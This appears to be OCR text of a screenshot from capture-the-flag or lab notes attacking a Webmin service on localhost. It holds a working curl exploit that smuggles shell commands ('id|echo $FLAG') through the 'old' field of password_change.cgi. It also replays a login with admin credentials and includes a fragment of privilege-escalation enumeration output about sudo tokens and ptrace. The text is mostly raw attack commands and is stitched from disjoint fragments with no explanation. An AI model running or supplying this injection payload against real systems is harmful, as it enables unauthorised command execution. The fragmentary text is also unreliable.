 curl -ks http://localhost:10000/password_change.cgi -d "user=wheel&pam=&expired=2&old=id|echo '$FLAG'&new1=wheel&new2=wheel" -H 'Cookie: redirect=1; testing=1; sid=x; sessiontest=1;' -H "Content-Type: application/x-www-form-urlencoded" -H 'Referer: http://localhost:10000/session_login.cgi'

curl 'http://localhost:10000/session_login.cgi' \
  -H 'Connection: keep-alive' \
  -H 'Pragma: no-cache' \
  -H 'Cache-Control: no-cache' \
  -H 'Origin: http://localhost:10000' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'DNT: 1' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.75 Safari/537.36' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
  -H 'Sec-Fetch-Site: same-origin' \
  -H 'Sec-Fetch-Mode: navigate' \
  -H 'Sec-Fetch-User: ?1' \
  -H 'Sec-Fetch-Dest: document' \
  -H 'Referer: http://localhost:10000/session_login.cgi' \
  -H 'Accept-Language: en-US,en;q=0.9,la;q=0.8' \
  -H 'Cookie: redirect=1; testing=1; sid=2d35cb72e843b8ef6d0272407b427f20' \
  --data-raw 'user=admin&pass=password1234' \
  --compressed

  [+] Checking sudo tokens
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
/proc/sys/kernel/yama/ptrace_scope is not enabled (1)
gdb was found in PATH

/usr/libexec/tracker-store